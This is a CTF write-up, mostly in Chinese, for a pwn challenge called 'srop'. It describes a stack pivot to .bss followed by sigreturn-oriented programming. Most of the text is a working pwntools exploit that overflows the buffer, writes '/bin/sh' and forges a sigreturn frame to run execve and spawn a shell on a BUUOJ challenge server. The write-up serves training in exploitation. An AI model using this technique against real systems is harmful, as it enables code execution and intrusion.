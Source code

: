 # W3 srop

## 文件分析

NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

思路和上一题类似，先进行栈迁移，方便控制地址，然后srop

这题没有syscall，只有syscall函数，所以要注意rsp+8要可用；并且rdi是rax等

srop可以用pwntools里的工具快速生成，主要是要多次利用sigreturn改变rip，
从而控制程序走向，具体的流程可以在ctf-wiki中学习

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26073)
elf = ELF('srop')

syscall = elf.plt['syscall'] # here syscall is a libc function
main = elf.symbols['main']
popRdiAddr = 0x401203
retAddr = 0x401144
bssHigh = 0x404800

# payload 1, stack pivot to bss and read again
sh.send(b'0'*0x30 + p64(bssHigh) + p64(0x401171) + b'0'*(0x300-0x40))
sh.recv(0x30) # skip all write content

context.arch = 'amd64'
shellFrame = SigreturnFrame()
shellFrame.rdi = constants.SYS_execve
shellFrame.rsi = bssHigh - 0x30 # /bin/sh addr
shellFrame.rdx = 0
shellFrame.rcx = 0
shellFrame.rsp = bssHigh
shellFrame.rip = syscall

# payload 2, write /bin/sh to bss and invoke sigreturn to do execve
sh.sendline(b'/bin/sh\0' + b'0'*0x30 + p64(popRdiAddr) + p64(15) + p64(syscall) + bytes(shellFrame))
sh.interactive()
```

Done.
